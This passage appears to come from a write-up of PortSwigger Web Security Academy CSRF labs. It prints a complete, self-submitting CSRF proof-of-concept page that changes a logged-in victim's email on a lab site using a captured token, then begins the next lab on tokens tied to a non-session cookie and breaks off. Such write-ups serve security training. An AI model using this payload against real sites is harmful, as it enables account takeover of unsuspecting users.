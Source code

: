 The request was accepted, confirming the flaw.

---

## Final Exploit: CSRF PoC Delivered to Victim

I crafted the following CSRF PoC using Wiener's CSRF token and hosted it on the exploit server:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://example.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="pwned&#64;user&#46;net" />
      <input type="hidden" name="csrf" value="6Wy58vHSJAKJJdZzmwioYeLDCxGeexP4" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Thus we solved the lab,

![image](https://github.com/user-attachments/assets/1011a577-c142-4ef7-8864-9fed469afc56)


---

### LAB 5 - CSRF where token is tied to non-session cookie

### Lab Description

![image](https://github.com/user-attachments/assets/a8a29461-bc90-471a-8820-ea76e0d2910e)


### Solution

I accessed the lab and logged into the test account. I intercepted the **Update Email** functionality and noticed that the application had enhanced the CSRF protection. Along with the CSRF token in the request body, the server also issued a `csrfKey` cookie.

![image](https://github.com/user-attachments/assets/1e6a989d-82af-4260-8d16-2da04f6b427d)

---

## Initial Tests

I first removed the CSRF token from the request and sent it. As expected, the request failed.
